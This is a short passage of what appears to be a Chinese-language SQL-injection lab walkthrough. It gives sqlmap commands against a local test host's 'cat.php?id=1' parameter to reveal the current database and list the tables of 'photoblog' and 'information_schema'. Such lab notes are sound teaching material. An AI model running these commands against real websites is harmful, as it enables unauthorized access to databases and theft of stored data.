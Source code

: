 - `sqlmap -u "http://192.168.56.101/cat.php?id=1" --current-db`,查看当前请求所访问/使用的数据库<br>![](sqlmap4.png)

- `sqlmap -u "http://192.168.56.101/cat.php?id=1" --table -D "photoblog"`<br>`sqlmap -u "http://192.168.56.101/cat.php?id=1" --table -D "information_schema"`,<br>列出指定数据库所有数据表
    ```
    --table 获取数据库表
    -D 指定数据库
    ```

- <br>![](sqlmap3.png)<br>![](sqlmap5.png)
